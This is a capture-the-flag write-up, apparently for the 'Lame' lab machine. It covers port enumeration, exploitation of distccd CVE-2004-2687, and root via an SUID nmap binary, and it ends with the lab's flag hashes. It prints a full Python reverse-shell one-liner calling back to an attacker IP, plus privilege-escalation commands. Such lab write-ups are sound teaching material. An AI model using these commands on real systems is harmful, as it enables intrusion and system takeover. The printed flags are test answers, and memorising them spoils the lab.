 ﻿# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 139  | SMB     |
| 445  | SMB     |
| 3632 | distccd |



# RECONNAISSANCE
---

FTP anonymous login is enabled, let's check it out:


![Pasted image 20250402152900.png](../../IMAGES/Pasted%20image%2020250402152900.png)

Nothing in here, `smb` anonymous login is not enabled unfortunately, let's keep on going, if we remember the scan, we got the following on port `3632`:

```
PORT     STATE SERVICE VERSION
3632/tcp open  distccd distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
```

We got something called `distccd`, `distcc`Â is a tool designed to distribute compilation of C/C++/Objective-C code across multiple machines on a network. It speeds up large builds by parallelizing the workload.

Since we got `distccd v1`, we can search for an exploit regarding that version:

![Pasted image 20250402153430.png](../../IMAGES/Pasted%20image%2020250402153430.png)




# EXPLOITATION
---


This is a pretty old CVE, we are facing `CVE-2004-2687`, we can search for an exploit in GitHub:

![Pasted image 20250402153623.png](../../IMAGES/Pasted%20image%2020250402153623.png)

Link: https://github.com/angelpimentell/distcc_cve_2004-2687_exploit


If we use the exploit, we can see this:

![Pasted image 20250402153655.png](../../IMAGES/Pasted%20image%2020250402153655.png)


We can get ourselves an interactive shell: 

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.239",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

If we check up our listener:

![Pasted image 20250402154059.png](../../IMAGES/Pasted%20image%2020250402154059.png)

Let's proceed with privesc.



# PRIVILEGE ESCALATION
---


First step is to stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

We can read `user.txt` now:

```
daemon@lame:/$ cat /home/makis/user.txt
6c8d8478b697ee1e975fb840878c905a
```

Let's use linpeas for a way to get into root:

![Pasted image 20250402154841.png](../../IMAGES/Pasted%20image%2020250402154841.png)

We got `nmap` binary set with a `4000 SUID`, let's check `gtfobins`:

![Pasted image 20250402155155.png](../../IMAGES/Pasted%20image%2020250402155155.png)

So, we need to do the following in order to get root:

```
/usr/bin/nmap --interactive
!sh
```

![Pasted image 20250402155218.png](../../IMAGES/Pasted%20image%2020250402155218.png)

We can finally read `root.txt`:

```
sh-3.2# cat /root/root.txt
259db45cfc8e1723f21fb0387f48ff5f
```


![Pasted image 20250402155300.png](../../IMAGES/Pasted%20image%2020250402155300.png)


